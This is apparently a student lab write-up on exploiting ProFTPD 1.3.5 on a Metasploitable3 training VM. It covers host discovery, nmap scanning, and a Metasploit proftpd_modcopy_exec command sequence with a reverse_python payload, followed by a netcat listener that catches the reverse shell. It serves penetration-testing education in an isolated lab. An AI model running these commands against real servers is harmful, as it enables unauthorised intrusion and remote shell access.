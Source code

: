 
## 🔍 Step 1: Finding the IP Address of Metasploitable3

We used the `ifconfig` command inside the Metasploitable3 VM to find its IP address on the NAT network.

- **Discovered IP Address:** `10.0.2.7`

![Metasploitable3 IP Address](Screenshots/A-FindIP-Metasplot.png)


### 🔁 Step 2: Verifying Network Connectivity

Before launching any attacks, we verified that the attacker machine (Kali Linux) can reach the victim machine (Metasploitable3) using the `ping` command.

- **Target IP:** `10.0.2.7`
- **Result:** Successful ping with 0% packet loss



![Ping Test from Kali to Metasploitable](Screenshots/B-Connect.png)
### 🔎 Step 3: Scanning for Open Ports and Services

To discover vulnerable services running on the victim machine, we performed a full version scan using `nmap`:
![Metasploitable3 IP Address](Screenshots/C-FindPorts.png)


 ## 📍 Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

In this step, we exploit the vulnerable **ProFTPD 1.3.5** service running on Metasploitable3 using the `unix/ftp/proftpd_modcopy_exec` module in Metasploit. The goal is to get a **reverse shell** back to our Kali machine.

---
![Metasploitable3 IP Address](Screenshots/D-msfconsole.png)
### ✅ Summary of the Process

- **Target (Metasploitable3) IP:** `10.0.2.7`  
- **Attacker (Kali) IP:** `10.0.2.5`  
- **Vulnerable Service:** ProFTPD 1.3.5  
- **Exploit Module:** `exploit/unix/ftp/proftpd_modcopy_exec`  
- **Payload Used:** `cmd/unix/reverse_python`  
- **Writable Web Directory:** `/var/www/html`

---

### 🧰 Commands Used

```bash
# Start Metasploit
msfconsole

# Search and load the exploit module
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec

# Set RHOST and LHOST
set RHOST 10.0.2.7
set LHOST 10.0.2.5

# View available payloads and select one
show payloads
set payload cmd/unix/reverse_python

# Set the writable directory on the target
set SITEPATH /var/www/html

# (Optional) Prevent cleanup and handler issues
set AllowNoCleanup true
set DisablePayloadHandler true

# Run the exploit

exploit

## ✅ Step 5: Establishing a Reverse Shell to the Victim (End of Phase 1.1)

After successfully uploading the malicious PHP payload using the `mod_copy` exploit module in Metasploit, we triggered the payload by accessing it through the victim’s web server. This caused the victim (Metasploitable3) to connect back to our Kali machine, confirming a successful reverse shell.

### 🔊 Listener Setup (Attacker Side)

On Kali, we opened a Netcat listener on port `4444`:

```bash
nc -lvnp 4444


